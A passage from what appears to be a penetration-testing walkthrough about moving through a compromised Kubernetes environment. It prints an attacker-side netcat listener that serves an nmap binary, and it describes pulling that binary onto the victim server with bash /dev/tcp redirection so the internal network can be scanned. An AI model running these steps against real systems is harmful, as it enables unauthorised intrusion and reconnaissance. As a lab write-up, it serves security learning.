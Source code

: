 ![](img/20241112151559.png)

The environment variables, e.g. `KUBERNETES_PORT`, in Chapter 2, among other things, revealed that the server is part of a Kubernetes (k8s) environment.

Using the existing shell access from the previous chapter, it is possible to upload a statically-linked `nmap` binary and scan the rest of the k8s environment. Since the `nc` binary is not present on the server, the bash's `/dev/tcp` redirections can be used.

First, set up a listener on the attacker's machine, which will send the binary once a connection is established.

```
$ cat nmap | nc -lvp 1234
```

Then, on the victim `pimpam` server, run `cat` with the appropriate redirections containing attacker machine's IP address and listener port.
